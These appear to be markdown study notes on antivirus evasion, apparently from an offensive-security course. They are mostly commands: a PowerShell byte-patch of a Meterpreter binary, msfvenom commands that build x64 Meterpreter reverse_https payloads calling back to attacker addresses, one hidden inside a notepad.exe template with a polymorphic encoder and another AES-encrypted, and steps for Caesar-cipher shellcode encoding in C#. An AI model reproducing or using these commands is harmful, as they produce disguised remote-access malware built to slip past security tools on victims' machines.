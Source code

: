 # Antivirus Evasion

Zero out the byte at offset `18867` of the executable, and write the modified executable to a new file:

```pwsh
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

## Bypassing Antivirus with Metasploit

List the available encoders 

```bash
msfvenom --list encoders
```

The `x86/shikata_ga_nai` encoder is a commonly-used polymorphic encoder that produces different output each time it is run => signature evasion.

`x64/zutto_dekiru` encoder borrows many techniques from it.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.176.134 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

List the encryption options:

```bash
msfvenom --list encrypt
```

The decryption routine itself can still be detected since it is static.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o met64_aes.exe
```

## Bypassing Antivirus with C#

Encrypt the shellcode, and create a custom decryption routine to avoid detection.

Use encryption with `msfvenom` to took advantage of the highly secure and complex aes256 encryption algorithm.

### Use Caesar Cipher

Implementing an `aes256` decryption routine is not straightforward => `Caesar Cipher`.

Choese a substitution key of `2`, iterated through each byte value in the shellcode, and simply added `2` to its value.

Perform a bitwise AND operation with `0xFF` to keep the modified value within the `0-255` range (single byte) in case the increased byte value exceeds `0xFF`.
